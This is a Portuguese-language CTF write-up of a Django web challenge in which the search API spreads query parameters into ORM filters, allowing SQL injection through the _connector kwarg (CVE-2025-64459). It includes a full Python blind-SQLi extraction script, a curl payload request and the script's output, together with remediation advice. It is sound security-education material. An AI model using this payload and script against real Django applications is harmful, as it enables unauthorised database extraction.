

# SELEC isn't a Choice | Fluid Attacks CTF 2026

`web` `sql-injection` `django-orm` `CVE-2025-64459` `_connector` `blind-sqli`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Web |
| **Resolvido em** | 2026-07-04 |

## TL;DR

A API de busca faz `Survey.objects.filter(**request.GET.dict())`: todos os parâmetros da query string viram argumentos nomeados do filtro do Django ORM. Isso inclui o kwarg especial `_connector`, e aí entra a CVE-2025-64459: controlar `_connector` injeta SQL no `WHERE`. Passando `author=X&title=Y&_connector=) OR (<condição>) OR (`, o `WHERE` vira `(author=X) OR (<minha condição>) OR (title=Y)`, então o resultado passa a depender só da minha condição. Com esse oráculo booleano (retornou surveys = verdadeiro), extraio caractere a caractere a flag, que está na tabela `surveys_adminnote` (coluna `value`), um model que a aplicação nem expõe.

> [!IMPORTANT]
> **Ideia-chave:** repassar `request.GET.dict()` direto para `.filter(**kwargs)` dá ao usuário controle de kwargs internos do ORM. O `_connector` (CVE-2025-64459) transforma isso em SQL injection, mesmo usando ORM.

## Enunciado

> SurveyHub. Use the API at /api/surveys/ to search.

**Arquivos / instância:** código-fonte Django (`views.py`, `models.py`, `urls.py`). Na minha instância o host era `c5f31ca2b741d1b6.chal.ctf.ae`. A API `GET /api/surveys/` filtra surveys por parâmetros.

## Dicas progressivas

<details><summary>Dica 1</summary>A view repassa <b>todos</b> os parâmetros GET para <code>.filter(**kwargs)</code>. Que kwargs "mágicos" o Django aceita?</details>
<details><summary>Dica 2</summary><code>_connector</code> controla como as condições do filtro se combinam. Em versões afetadas (CVE-2025-64459) dá para injetar SQL por ele.</details>
<details><summary>Dica 3</summary>Use <code>_connector=) OR (&lt;cond&gt;) OR (</code> como oráculo booleano e extraia a flag de <code>surveys_adminnote.value</code> com <code>LIKE</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`).

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=https://c5f31ca2b741d1b6.chal.ctf.ae
```

Na minha instância o host era esse (o script usa a constante `TARGET`).

## Resolução

### 1. Revisão do código: GET inteiro vira filtro

#### `surveys/views.py`

```python
def survey_search(request):
    filters = request.GET.dict()          # TODOS os params viram kwargs
    if not filters:
        surveys = Survey.objects.filter(is_public=True)
    else:
        surveys = Survey.objects.filter(**filters)   # <-- inclui _connector
    # devolve as surveys em JSON (com "count")
```

#### `surveys/models.py`

```python
class Survey(models.Model):
    title = ...; author = ...; is_public = ...

class AdminNote(models.Model):         # não exposto pela API
    key = models.CharField(max_length=100, unique=True)
    value = models.TextField()
```

O `**filters` é o problema: o usuário controla as chaves dos kwargs, não só os valores. O Django trata chaves que começam com `_` (como `_connector` e `_negated`) de forma especial na construção da cláusula.

> [!TIP]
> **Conceito: CVE-2025-64459 (`_connector` SQL injection no Django).** Ao construir um filtro, o Django usa `_connector` para decidir se junta as condições com `AND` ou `OR`. Em versões afetadas, um valor controlado de `_connector` passado para `QuerySet.filter(**kwargs)`/`Q(**kwargs)` é concatenado na SQL sem sanitização, permitindo injeção. A raiz do bug no desafio é mais básica ainda: nunca espalhar `request.GET` em `.filter(**...)`. Referência: [Django security release CVE-2025-64459](https://www.djangoproject.com/weblog/2025/).

### 2. Confirmando o oráculo

Montei o `_connector` como `) OR (<condição>) OR (` e dei a `author`/`title` valores impossíveis, então a query vira `WHERE (author='impossível') OR (<cond>) OR (title='impossível')`. Se `<cond>` for verdadeira, voltam surveys (`count > 0`); se falsa, `count = 0`. Baseline:

- `_connector=) OR (1=1) OR (` -> `count > 0` (verdadeiro)
- `_connector=) OR (1=0) OR (` -> `count = 0` (falso)

Com True/False distinguíveis, tenho um oráculo booleano para blind SQLi.

### 3. Extração cega da flag

A flag está na tabela do model `AdminNote` (`surveys_adminnote`, coluna `value`), que a API não expõe. Extraio por prefixo com `LIKE '%flag{...%'`, testando um caractere por vez (charset hex, que é o formato das flags da Fluid). Script completo, idêntico ao arquivo em `scripts/`:

> [!NOTE]
> O `TARGET` está fixo no topo do script (era a minha instância). Troque pela sua antes de rodar.

#### `scripts/script4.py`

```python
#!/usr/bin/env python3
import json
import re
from pathlib import Path

import requests
import urllib3

# Remove warnings de HTTPS em ambiente CTF.
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

TARGET = "https://c5f31ca2b741d1b6.chal.ctf.ae"
OUTDIR = Path("loot")
OUTDIR.mkdir(exist_ok=True)

session = requests.Session()
session.verify = False

flag_re = re.compile(r"flag\{[^}\r\n]+\}", re.IGNORECASE)


def sql_string(value: str) -> str:
    """
    Escapa string para uso dentro do payload SQL.
    Como estamos montando uma condição SQL injetada no _connector,
    precisamos evitar quebrar aspas simples.
    """
    return "'" + value.replace("'", "''") + "'"


def request_with_connector(condition: str, label: str):
    """
    Abusa do CVE-2025-64459.

    O Django monta algo parecido com:

        WHERE (author = ? <CONNECTOR> title = ?)

    Se _connector for:
        ) OR (<condição>) OR (

    o WHERE vira logicamente:

        WHERE (author = ?) OR (<condição>) OR (title = ?)

    Como author e title recebem valores impossíveis, o resultado passa
    a depender somente da condição injetada.
    """
    connector = f") OR ({condition}) OR ("

    params = {
        "author": "__nao_existe_author__",
        "title": "__nao_existe_title__",
        "_connector": connector,
    }

    response = session.get(
        TARGET + "/api/surveys/",
        params=params,
        timeout=15,
    )

    out_file = OUTDIR / f"script4_{label}.txt"
    out_file.write_text(
        "CONDITION:\n"
        + condition
        + "\n\nURL:\n"
        + response.url
        + "\n\nSTATUS:\n"
        + str(response.status_code)
        + "\n\nBODY:\n"
        + response.text,
        encoding="utf-8",
        errors="replace",
    )

    try:
        data = response.json()
        count = int(data.get("count", -1))
    except Exception:
        data = None
        count = -1

    print()
    print("=" * 100)
    print(label)
    print("STATUS:", response.status_code)
    print("COUNT:", count)
    print("LEN:", len(response.text))
    print("BODY:", response.text[:500])

    return response.status_code, count, response.text


def oracle(condition: str, label: str = "oracle") -> bool:
    """
    Retorna True quando a condição SQL injetada faz a API retornar surveys.
    Retorna False quando a condição não bate.
    """
    status, count, body = request_with_connector(condition, label)

    # Se achar a flag direto por algum motivo, salva.
    m = flag_re.search(body)
    if m:
        flag = m.group(0)
        print("[+] FLAG ENCONTRADA DIRETO:", flag)
        Path("flag.txt").write_text(flag + "\n", encoding="utf-8")
        raise SystemExit(0)

    return status == 200 and count > 0


def find_adminnote_table() -> str:
    """
    O app Django se chama surveys e o model se chama AdminNote.
    O nome padrão da tabela tende a ser surveys_adminnote.
    Mesmo assim testamos variações para evitar travar por detalhe de deploy.
    """
    candidates = [
        "surveys_adminnote",
        "survey_adminnote",
        "adminnote",
        "admin_note",
        "admin_notes",
    ]

    for table in candidates:
        condition = f"EXISTS(SELECT 1 FROM {table})"
        ok = oracle(condition, f"table_probe_{table}")
        if ok:
            print("[+] Tabela encontrada:", table)
            return table

    print("[-] Nenhuma tabela AdminNote candidata respondeu como existente.")
    raise SystemExit(1)


def find_flag_column(table: str) -> str:
    """
    Testa as colunas prováveis do AdminNote.
    Pelo source, as colunas são key e value.
    A flag provavelmente está no value, mas validamos as duas.
    """
    columns = ["value", "key"]

    for column in columns:
        condition = f"EXISTS(SELECT 1 FROM {table} WHERE {column} LIKE '%flag{{%')"
        ok = oracle(condition, f"column_probe_{table}_{column}")
        if ok:
            print("[+] Coluna com flag:", column)
            return column

    print("[-] Não encontrei flag começando com flag{ em key/value.")
    print("[*] Vou tentar extração por value mesmo, porque é o campo mais provável.")
    return "value"


def extract_flag_by_like(table: str, column: str) -> str:
    """
    Extração cega por prefixo.

    A cada caractere, testamos:
        EXISTS(SELECT 1 FROM surveys_adminnote WHERE value LIKE '%flag{a%')

    Quando o prefixo correto existe em algum valor, a API retorna count > 0.
    """
    prefix = "flag{"

    # Flags da Fluid normalmente são hex, mas deixamos fallback amplo.
    primary_charset = "0123456789abcdef}"
    fallback_charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}"

    print()
    print("=" * 100)
    print("EXTRAÇÃO CEGA DA FLAG")
    print("=" * 100)
    print("[*] Prefixo inicial:", prefix)

    for position in range(1, 80):
        found = False

        charset = primary_charset
        for ch in charset:
            candidate = prefix + ch
            condition = f"EXISTS(SELECT 1 FROM {table} WHERE {column} LIKE '%{candidate}%')"

            if oracle(condition, f"extract_pos_{position}_{ord(ch)}"):
                prefix = candidate
                print("[+] Prefixo:", prefix)
                found = True
                break

        if not found:
            print("[*] Charset hex não achou próximo caractere. Tentando fallback amplo.")

            for ch in fallback_charset:
                candidate = prefix + ch
                condition = f"EXISTS(SELECT 1 FROM {table} WHERE {column} LIKE '%{candidate}%')"

                if oracle(condition, f"extract_fallback_pos_{position}_{ord(ch)}"):
                    prefix = candidate
                    print("[+] Prefixo:", prefix)
                    found = True
                    break

        if prefix.endswith("}"):
            return prefix

        if not found:
            print("[-] Não foi possível avançar a partir do prefixo:", prefix)
            break

    return prefix


def main():
    print("[*] Target:", TARGET)

    print()
    print("=" * 100)
    print("VALIDANDO SQLI VIA _connector")
    print("=" * 100)

    true_ok = oracle("1=1", "sqli_true_1_eq_1")
    false_ok = oracle("1=0", "sqli_false_1_eq_0")

    print()
    print("[*] Resultado 1=1:", true_ok)
    print("[*] Resultado 1=0:", false_ok)

    if not true_ok or false_ok:
        print("[-] O comportamento não confirmou o oráculo esperado.")
        print("[*] Revise loot/script4_sqli_true_1_eq_1.txt e loot/script4_sqli_false_1_eq_0.txt")
        raise SystemExit(1)

    print("[+] SQLi confirmado via _connector.")

    table = find_adminnote_table()
    column = find_flag_column(table)

    flag = extract_flag_by_like(table, column)

    print()
    print("=" * 100)
    print("RESULTADO")
    print("=" * 100)

    if flag_re.fullmatch(flag):
        print("[+] FLAG ENCONTRADA:", flag)
        Path("flag.txt").write_text(flag + "\n", encoding="utf-8")
        print("[+] Flag salva em flag.txt")
    else:
        print("[!] Extração parcial:", flag)
        print("[*] Revisar arquivos em loot/script4_*.txt")


if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script4.py
```

```text
VALIDANDO SQLI VIA _connector
[*] Resultado 1=1: True
[*] Resultado 1=0: False
[+] SQLi confirmado via _connector.
[+] Tabela encontrada: surveys_adminnote
[+] Coluna com flag: value

EXTRAÇÃO CEGA DA FLAG
[+] Prefixo: flag{6
[+] Prefixo: flag{6c
...[snip]...
[+] Prefixo: flag{6c1243a268bXXXXX}
[+] FLAG ENCONTRADA: flag{6c1243a268bXXXXX}
```

A requisição crua do oráculo verdadeiro:

***INSERIR no terminal: Kali (atacante)

```bash
curl -sk "$TARGET/api/surveys/" \
  --data-urlencode 'author=__nao_existe__' \
  --data-urlencode 'title=__nao_existe__' \
  --data-urlencode '_connector=) OR (1=1) OR (' -G
```

```text
{"count": 7, "results": [ ...surveys... ]}
```

Trocando `1=1` por `1=0`, `count` vira 0. Essa diferença é o bit que a extração usa a cada caractere.

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que o ORM protege contra SQL injection. O ORM protege os *valores*, mas aqui o usuário controla as *chaves* dos kwargs (`request.GET.dict()` espalhado em `.filter(**...)`), incluindo o `_connector`, que (CVE-2025-64459) é concatenado na SQL. Isso dá um ponto de injeção booleano. A partir dele, mesmo sem ver dados diretamente, cada requisição responde "a condição é verdadeira?" e eu reconstruo qualquer valor do banco, inclusive de tabelas que a aplicação nunca expõe.

## Remediação

- Nunca espalhar `request.GET` em `.filter(**kwargs)`. Usar uma allowlist explícita de campos filtráveis.
- Atualizar o Django para a versão que corrige a CVE-2025-64459.
- Tratar `_connector`/`_negated` e qualquer chave iniciada por `_` como inválida vinda do usuário.

## Lições e padrões

- **Sinais para reconhecer:** `filter(**request.GET.dict())`, `Q(**user_input)`, qualquer spread de input do usuário em kwargs do ORM. O nome do desafio ("SELECT isn't a choice") já aponta SQL.
- **Da próxima vez eu tentaria primeiro:** confirmar o oráculo com `1=1`/`1=0` no `_connector`, depois enumerar tabelas (`EXISTS(SELECT 1 FROM ...)`) e extrair com `LIKE` por prefixo. Com UNION-based seria mais rápido, mas o blool-based já resolve.

## Referências

- [Django security releases (CVE-2025-64459)](https://www.djangoproject.com/weblog/)
- [PortSwigger: Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)

## Flag

```text
flag{6c1243a268bXXXXX}
```
